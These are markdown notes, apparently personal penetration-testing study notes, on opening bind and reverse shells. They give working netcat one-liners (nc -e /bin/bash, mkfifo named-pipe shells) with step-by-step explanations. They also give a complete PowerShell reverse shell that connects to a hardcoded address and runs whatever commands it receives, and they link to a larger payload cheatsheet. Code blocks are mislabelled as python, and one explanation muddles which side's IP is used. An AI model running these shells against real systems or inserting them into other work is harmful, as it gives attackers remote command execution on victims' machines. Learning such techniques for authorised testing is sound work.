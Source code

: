 ## netcat connection
##### 1. Executing a process on action using netcat listener. 
**Example** - 
```python
nc -lvnp <PORT> -e /bin/bash
```
Connecting to the above listener with netcat would result in a **bind shell** on the target.

##### 2. Equally, for a reverse shell, connecting back would result in a **reverse shell** on the target with the below command:
```python
nc <LOCAL-IP> <PORT> -e /bin/bash
```

##### 3. On **Linux**, however, we would instead use this code to create a listener for a **bind shell**:
```python
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
1. `mkfifo /tmp/f`: This creates a named pipe (FIFO) called "f" in the "/tmp" directory. A named pipe is a special file that allows two processes to communicate with each other.
    
2. `nc -lvnp <PORT> < /tmp/f`: This sets up a netcat (nc) listener on a specified port (PORT) and redirects the input to come from the named pipe "/tmp/f". Netcat is a utility used for network communication.
    
3. `|`: This symbol is a pipe, connecting the output of the previous command to the input of the next command.
    
4. `/bin/sh`: This starts a shell (command-line interpreter) on the remote system. In this case, it is "/bin/sh", which is typically a symbolic link to the default system shell (like Bash).
    
5. `>/tmp/f`: This redirects the standard output of the shell to the named pipe "/tmp/f", which means any output from the shell will be sent back through the pipe.
    
6. `2>&1`: This redirects the standard error (file descriptor 2) to the same location as the standard output (file descriptor 1). In this case, it's the named pipe "/tmp/f".
    
7. `rm /tmp/f`: This removes the named pipe "/tmp/f" after the command has finished executing.
![[shells9.png]]

##### 4. A very similar command can be used to send a netcat reverse shell:
```python
mkfifo /tmp/f; nc <attacker-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
1. `mkfifo /tmp/f`: This creates a named pipe (FIFO) called "f" in the "/tmp" directory. A named pipe is a special file that allows two processes to communicate with each other.
    
2. `nc <LOCAL-IP> <PORT> < /tmp/f`: This uses netcat (nc) to connect to a specified IP address (LOCAL-IP) and port number (PORT). It redirects the input to come from the named pipe "/tmp/f".
    
3. `|`: This symbol is a pipe, connecting the output of the previous command to the input of the next command.
    
4. `/bin/sh`: This starts a shell (command-line interpreter) on the remote system. In this case, it is "/bin/sh", which is typically a symbolic link to the default system shell (like Bash).
    
5. `>/tmp/f`: This redirects the standard output of the shell to the named pipe "/tmp/f", which means any output from the shell will be sent back through the pipe.
    
6. `2>&1`: This redirects the standard error (file descriptor 2) to the same location as the standard output (file descriptor 1). In this case, it's the named pipe "/tmp/f".
    
7. `rm /tmp/f`: This removes the named pipe "/tmp/f" after the command has finished executing.

![[shells10.png]]

##### 5. Powershell reverse shell to exploit a modern Windows Server
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.45.240',12345);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
- In order to use this, we need to replace "IP" and "port" with an appropriate IP and choice of port.
- The above powershell script will work but you need to url encod it first.
- It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:
![[shells11.png]]

**For other common reverse shell payloads visit this repo** --> [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)